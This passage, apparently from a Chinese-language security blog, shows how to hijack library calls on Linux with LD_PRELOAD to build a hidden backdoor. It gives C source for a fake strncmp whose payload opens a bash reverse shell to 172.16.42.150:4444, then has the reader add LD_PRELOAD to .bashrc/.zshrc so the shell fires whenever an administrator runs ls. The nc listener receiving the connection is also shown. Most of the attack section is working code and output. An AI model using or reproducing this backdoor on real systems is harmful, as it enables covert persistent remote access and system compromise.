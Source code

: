编译

```
gcc -shared -fPIC hook_strncmp.c -o hook_strncmp.so
```

执行

```
[root@vuln /tmp]# export LD_PRELOAD=$PWD/hook_strncmp.so
[root@vuln /tmp]# ls
uid=0(root) gid=0(root) 组=0(root)
hook_strcmp.c  hook_strcmp.so  hook_strncmp.c  hook_strncmp.so  passcheck  passcheck.c
[root@vuln /tmp]#
```

利用这种思路，我们可以制作一个隐藏得 Linux 后门，比如当管理员执行 `ls` 命令时会反弹一个 Shell：

- hook_strncmp.c

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("bash -c 'bash -i >& /dev/tcp/172.16.42.150/4444 0>&1'");
}

int strncmp(const char *__s1, const char *__s2, size_t __n) {    // 这里函数的定义可以根据报错信息进行确定
    if (getenv("LD_PRELOAD") == NULL) {
    	return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```

编译：

```
gcc -shared -fPIC hook_strncmp.c -o hook_strncmp.so
```

然后在 `.bashrc` 中写入，我这里用的是zsh，所以写入了.zshrc：

```
export LD_PRELOAD=/tmp/hook_strncmp.so
```

执行ls成功收到了shell

```
[root@debian ~]# nc -lvvp 4444
listening on [any] 4444 ...
172.16.42.151: inverse host lookup failed: Unknown host
connect to [172.16.42.150] from (UNKNOWN) [172.16.42.151] 4124
```

